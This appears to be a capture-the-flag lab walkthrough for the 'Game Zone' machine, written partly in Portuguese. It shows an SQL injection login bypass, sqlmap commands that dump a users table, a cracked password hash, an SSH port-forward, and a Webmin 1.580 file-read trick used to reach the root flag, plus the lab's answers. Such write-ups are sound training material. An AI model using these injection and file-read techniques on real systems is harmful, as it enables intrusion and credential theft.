 # gamezone

# TASK 1 - Deploy the vulnerable machine

What is the name of the large cartoon avatar holding a sniper on the forum?
R: Agent 47

nmap -sC -sV 10.10.138.171

![image](https://github.com/yanfernandess/gamezone/assets/100174458/ff14a15b-5083-4c7b-8477-422c389aa6c0)

# TASK 2 -  Obtain access via SQLi

Log in: ' or 1=1 -- -
Password:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/9b1ab06e-9f2f-4498-b9aa-2e0fca682d61)

When you've logged in, what page do you get redirected to?
R: portal.php

![image](https://github.com/yanfernandess/gamezone/assets/100174458/86b0560e-c2a6-4d29-b7dc-dd067d5c1232)

# TASK 3 - Using SQLMap

Salvar o código fonte que aparece no BURP SUITE da página logo após inserir alguma informação no input em um arquivo txt, vamos usar isso logo em seguida.

sqlmap -r request.txt --current-db
![image](https://github.com/yanfernandess/gamezone/assets/100174458/e0590bd6-1677-4274-a095-f79b125ed9f7)

Descobrimos que temos um banco de dados chamado 'db'

sqlmap -r request.txt -D db --tables

![image](https://github.com/yanfernandess/gamezone/assets/100174458/10fe000e-346e-499d-96f2-3b2ab7c228ec)

Temos duas tabelas dentro do banco de dados, vamos explorar elas.

sqlmap -r request.txt -D db users --dump

In the users table, what is the hashed password?
R: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

What was the username associated with the hashed password?
R: agent47

What was the other table name?
R: post

# TASK 4 - Cracking a password with JohnTheRipper

Ele esta pedindo para descriptografar com o JohnTheRipper mas utilizei uma ferramenta online para fazer isso, segue o link abaixo:

https://www.dcode.fr/

![image](https://github.com/yanfernandess/gamezone/assets/100174458/27c46287-82b9-4cde-96aa-4c7ec7ee35f5)

Conseguimos acesso SSH com o login e a senha que acabamos de descriptografar.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/09cf8537-da10-4d64-9c79-20b52316b187)

E conseguimos a primeira flag.

What is the de-hashed password?
R: videogamer124


Now you have a password and username. Try SSH'ing onto the machine.

What is the user flag?
R: 649ac17b1480ac13ef1e4fa579dac95c

# TASK 5 - Exposing services with reverse SSH tunnels

ssh -L 10000:localhost:10000 agent47@10.10.138.171

![image](https://github.com/yanfernandess/gamezone/assets/100174458/338a6a7d-f737-4dfe-8f56-bcf1331c7e52)

Fiz o Login com a credencial descoberta e descobri que se trata de um webmin da versão 1.580.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/45a7648c-0ecd-4bcb-bdf3-6277cf8ea382)

How many TCP sockets are running?
R: 5

What is the name of the exposed CMS?
R: Webmin

What is the CMS version?
R: 1.580

# TASK 6 - Privilege Escalation with Metasploit

Se você estiver seguindo o guia da sala, neste ponto você poderá iniciar o Meterpreter e usar um módulo dentro da estrutura para obter um shell root. No entanto, se você ler como o exploit funciona, é muito simples apenas ler os arquivos no console do webmin. Para testar isso, vamos dar uma olhada no arquivo passwd:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/91e33563-b26c-474a-a2d9-da1811989c49)

Como você pode ver, tudo o que precisei fazer foi adicionar /file/show.cgi e, em seguida, o caminho e o nome do arquivo que desejo ver.

Usando esta técnica simples, podemos pegar o sinalizador root:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/2af2fb5d-4620-476c-b2f7-84233d9ea3ea)
